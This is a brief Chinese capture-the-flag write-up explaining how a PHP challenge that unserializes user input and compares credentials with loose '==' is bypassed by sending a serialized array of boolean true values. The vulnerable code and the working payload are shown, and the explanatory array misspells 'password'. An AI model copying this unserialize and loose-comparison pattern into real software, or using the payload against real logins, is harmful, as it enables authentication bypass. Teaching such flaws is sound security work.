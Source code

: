 # 又见php登录绕过
先看代码
``` php
<?php
show_source(__FILE__);
$username  = "this_is_secret"; 
$password  = "this_is_not_known_to_you"; 
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
    echo $flag;
}else{
    echo "username or password error!";

}

?>
```
可得知需要穿透username和password，又因为用 `==`是一种弱条件的等，用它进行比较的时候，会发生类型转换。
所以此题目只需要穿入
```php
array{
    "username"=>true,
    "passowrd"=>true
}
```
的序列化值就可以了,最终的payload为。
```
?info=a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```